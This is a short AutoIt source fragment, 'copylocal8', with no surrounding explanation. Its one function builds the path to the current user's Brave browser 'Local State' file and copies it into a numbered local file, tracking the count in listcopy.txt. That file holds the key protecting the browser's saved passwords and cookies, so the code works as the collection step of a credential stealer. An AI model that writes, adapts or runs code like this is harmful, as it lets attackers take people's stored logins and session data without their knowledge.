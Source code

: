 # copylocal8
Func copylocal()
	$u = @UserName
	If _filecountlines("listcopy.txt") = 0 Then
		FileWriteLine("listcopy.txt", 1)
		$file = 1
	Else
		$file = FileReadLine("listcopy.txt", -1) + 1
		FileWriteLine("listcopy.txt", $file)
	EndIf
	$zzz = "C:\Users\" & $u & "\AppData\Local\BraveSoftware\Brave-Browser\User Data\Local State"
	FileCopy($zzz, "Local\" & $file, 9)
EndFunc
